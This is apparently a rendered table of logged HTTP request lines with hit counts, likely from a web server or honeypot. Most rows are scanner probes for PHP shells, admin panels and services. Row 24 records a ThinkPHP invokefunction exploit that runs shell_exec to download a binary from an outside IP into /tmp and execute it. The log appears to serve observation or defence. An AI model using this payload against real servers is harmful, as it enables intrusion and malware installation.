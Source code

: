 |  19 |                     8 | GET /t4 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
|  20 |                     8 | GET /upl.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
|  21 |                     8 | GET /systembc/password.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
|  22 |                     8 | GET /1.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
|  23 |                     8 | GET /portal/redlion HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
|  24 |                     8 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                                                                                                                                                                                                                                                                                                                                                          |
|  25 |                     8 | GET /form.html HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
|  26 |                     8 | GET /geoserver/web/ HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
|  27 |                     7 | GET /actuator/health HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |